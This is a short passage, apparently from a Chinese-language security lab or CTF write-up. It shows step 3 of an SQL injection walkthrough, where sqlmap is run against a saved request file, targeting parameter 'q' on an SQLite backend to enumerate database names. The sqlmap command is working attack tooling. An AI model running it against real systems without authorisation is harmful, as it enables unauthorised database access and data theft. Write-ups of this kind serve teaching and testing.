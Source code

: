 ![get](./img_12/exp2/sqlmap.png)

**3. 进⼀步使⽤ sqlmap 搜集更多结果,尝试注⼊数据库名，发现结果中提示可以直接注⼊表**
```
sqlmap -r 123.txt --level 2 -p "q" --dbms='sqlite' --dbs
```

